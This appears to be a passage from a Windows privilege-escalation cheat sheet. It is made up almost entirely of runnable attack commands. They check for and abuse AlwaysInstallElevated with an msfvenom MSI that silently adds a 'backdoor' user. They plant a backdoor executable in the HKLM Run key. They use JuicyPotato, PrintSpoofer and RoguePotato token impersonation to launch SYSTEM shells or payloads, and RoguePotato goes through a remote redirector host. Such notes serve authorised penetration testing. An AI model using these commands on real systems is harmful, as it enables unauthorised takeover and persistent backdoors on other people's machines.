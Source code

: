 ### Registry Abuse

#### AlwaysInstallElevated
```cmd
# Check if enabled
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# If both return 0x1, create MSI payload
msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
msiexec /quiet /qn /i evil.msi
```

#### AutoRun Registry Keys
```cmd
# Check for writable autorun entries
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

# Check permissions
accesschk.exe -uwkv HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

# Add malicious entry
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v backdoor /t REG_SZ /d "C:\path\to\backdoor.exe"
```

### Token Impersonation

#### JuicyPotato (Windows Server 2016 and earlier)
```cmd
# Check for SeImpersonatePrivilege
whoami /priv | findstr SeImpersonatePrivilege

# Find CLSID for the OS version
# Windows Server 2016: {e60687f7-01a1-40aa-86ac-db1cbf673334}
# Windows Server 2012: {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}

# Execute JuicyPotato
JuicyPotato.exe -l 1337 -p C:\windows\system32\cmd.exe -t * -c {CLSID}

# With custom payload
JuicyPotato.exe -l 1337 -p payload.exe -t * -c {CLSID}
```

#### PrintSpoofer (Windows 10/Server 2019+)
```cmd
# Check for SeImpersonatePrivilege
whoami /priv | findstr SeImpersonatePrivilege

# Execute PrintSpoofer
PrintSpoofer.exe -i -c cmd.exe
PrintSpoofer.exe -c "C:\path\to\payload.exe"

# Alternative: RoguePotato
RoguePotato.exe -r <redirector-ip> -e "C:\windows\system32\cmd.exe" -l 9999
```
